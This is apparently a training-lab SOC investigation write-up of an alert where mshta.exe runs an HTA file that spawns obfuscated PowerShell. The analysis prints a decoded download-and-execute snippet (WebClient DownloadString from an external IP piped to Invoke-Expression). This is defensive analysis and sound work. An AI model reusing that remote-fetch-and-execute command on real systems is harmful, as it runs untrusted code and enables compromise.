




# SOC164 – Suspicious Mshta Behavior

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 114 |
| Event Time | March 5, 2022 — 10:29:16 (UTC+3) |
| Rule Name | SOC164 – Suspicious Mshta Behavior |
| Alert Type | LOLBin |
| Difficulty | Medium |
| Hostname | `Roberto` |
| Source IP | `172.16.17.38` |
| Binary Path | `C:\Windows\System32\mshta.exe` |
| HTA File | `C:\Users\Roberto\Desktop\Ps1.hta` |
| HTA MD5 | `6685c433705f558c5535789234db0e5a` |
| EDR Action | Allowed |
| MITRE ATT&CK Mapping | T1112 (provided by the alert) |
| Final Playbook Verdict | True Positive |

## 2. Understanding Mshta.exe

`mshta.exe` is a legitimate Windows utility used to execute HTML Applications (HTA files). However, it can also be abused to execute suspicious content and initiate further malicious activity.

In this alert, `mshta.exe` was used to execute a low-reputation HTA file located on the user's Desktop. The subsequent process and network evidence showed that the activity involved PowerShell and an attempt to retrieve content from an external IP address.

The binary itself is not inherently malicious. Its execution context and relationship with the subsequent PowerShell activity make this case suspicious.

## 3. Alert Trigger – Mshta.exe Execution

The recorded command was:

```cmd
C:\Windows\System32\mshta.exe C:\Users\Roberto\Desktop\Ps1.hta
```

The HTA file had the following MD5 hash:

```text
6685c433705f558c5535789234db0e5a
```

The EDR action was recorded as **Allowed**, meaning the execution was not blocked by the endpoint control represented in the alert.

The following investigation focuses on the process relationship, the PowerShell command, and the external HTTP request.

## 4. Process Analysis – Mshta.exe Launching PowerShell

The Processes view confirmed that **`mshta.exe` was the parent process of `powershell.exe`**.

This establishes a direct process relationship between the execution of the HTA file and the PowerShell process.

The observed execution chain was:

```text
mshta.exe
└── powershell.exe
    ├── Reconstructs an obfuscated method name
    ├── Requests content from an external URL
    └── Attempts to execute the returned content
```

This relationship supports the conclusion that the HTA execution initiated the PowerShell activity investigated in this alert.

**Screenshot – Process Tree**



## 5. PowerShell Analysis – Obfuscation and Execution Attempt

The Terminal History contained a PowerShell command that used hexadecimal values and string reconstruction to hide parts of its functionality.

### 5.1 Reconstructing the Hidden Method Name

The command defined a function called `H1` that converts pairs of hexadecimal characters into their corresponding text characters.

For example:

```text
446f776E
```

decodes to:

```text
Down
```

The command then reconstructed the following strings:

| Variable | Decoded Value |
|---|---|
| `$H3` | `Down` |
| `$H4` | `lo` |
| `$H5` | `adstri` |
| `$H6` | `ng` |
| `$H7` | `Downloadstring` |

The reconstructed method name was used with a .NET `WebClient` object.

This is an example of **obfuscation**: the command hides recognizable method names by constructing them at runtime, making the original intent less obvious during initial inspection.

### 5.2 Reconstructing the Download and Execution Logic

The relevant behavior can be expressed in simplified form as:

```powershell
$client = New-Object Net.WebClient
$script = $client.DownloadString(
    'http://193.142.58.23/Server.txt'
)
Invoke-Expression $script
```

This is a simplified representation of the observed command, not a separate command recovered from the host.

The code attempts to:

1. Create a `Net.WebClient` object.
2. Retrieve text from `http://193.142.58.23/Server.txt`.
3. Pass the returned text to `Invoke-Expression` (`IEX`) for execution as PowerShell code.

The use of `DownloadString()` followed by `IEX` is suspicious because it allows downloaded content to be executed directly without necessarily being saved as a conventional script file.

However, the intended behavior must be distinguished from the actual outcome. The available network evidence shows that the requested resource returned an HTTP error.

**Screenshot – Terminal History**



## 6. Network Evidence – External Payload Request

The Log Management records contained the following HTTP activity:

| Timestamp | Source | Destination | Port | Result |
|---|---|---|---:|---|
| 2022-03-05 09:29:25 | `172.16.17.38` | `193.142.58.23` | 80 | Request for `/Server.txt` |
| 2022-03-05 09:30:08 | `193.142.58.23` | `172.16.17.38` | Response to source port `42611` | HTTP `404 Not Found` |

The first record shows a request to:

```text
http://193.142.58.23/Server.txt
```

The second record shows that the server returned:

```text
404 Not Found
```

An HTTP 404 response means that the requested resource was not found at the requested URL.

This evidence is consistent with the URL embedded in the PowerShell command. However, the supplied timestamps do not align directly with the alert and Terminal History timestamps, so the request cannot be placed confidently into the same exact timeline without validating the source clocks and timezone settings.

The HTTP response also affects the execution assessment. Because `DownloadString()` normally expects a successful response containing the requested text, the 404 response suggests that the download attempt failed. The available evidence does **not** confirm that the intended payload was retrieved or successfully executed by `IEX`.

The behavior remains suspicious even though the payload delivery may have failed.

**Screenshots – Log Management**





## 7. MITRE ATT&CK Context

The alert supplied the following mapping:

| Technique | Relevance to Available Evidence |
|---|---|
| T1112 – Modify Registry | Listed in the alert, but the evidence provided for this investigation does not independently demonstrate Registry modification. |

The observed behavior also includes execution through `mshta.exe` followed by PowerShell activity. The final technique mapping should reflect the behaviors confirmed by the available process, command-line, and endpoint evidence.

Reference: [MITRE ATT&CK – T1112: Modify Registry](https://attack.mitre.org/techniques/T1112/).

## 8. Playbook Results

| Playbook Question | Answer |
|---|---|
| Determine Suspicious Activity | Yes, suspicious |
| What Is Suspicious Activity? | Execute |
| Who Performed the Activity? | User |
| Final Verdict | True Positive |

The playbook identifies **execution** as the suspicious activity. This is consistent with the execution of `Ps1.hta` through `mshta.exe` and the confirmed parent-child relationship showing that `mshta.exe` launched PowerShell.

The PowerShell command then attempted to retrieve remote content and execute it using `Invoke-Expression`. Although successful payload retrieval and execution were not confirmed, the observed execution chain and obfuscated command support the True Positive classification for suspicious execution behavior.

The playbook's `User` answer identifies the actor category; the available evidence does not establish a specific Windows username beyond the context of the `Roberto` host and file path.

## 9. Assessment

The evidence supports the classification of this alert as **True Positive for suspicious execution behavior**.

The key findings are:

- A low-reputation HTA file was executed through `mshta.exe`.
- The Processes view confirmed that `mshta.exe` was the parent of `powershell.exe`.
- The PowerShell command used obfuscation to reconstruct `DownloadString`.
- The reconstructed command attempted to retrieve content from an external IP address and execute it through `Invoke-Expression`.
- Firewall records showed a request for `Server.txt`, followed by an HTTP `404 Not Found` response.
- Successful retrieval and execution of the intended payload were not established.

**Final Verdict: True Positive – Suspicious Mshta and PowerShell Execution.**

The parent-child process relationship, obfuscated PowerShell command, and external payload request provide sufficient evidence to treat the activity as suspicious. However, a successful payload download, execution, or subsequent compromise is not confirmed by the evidence available.
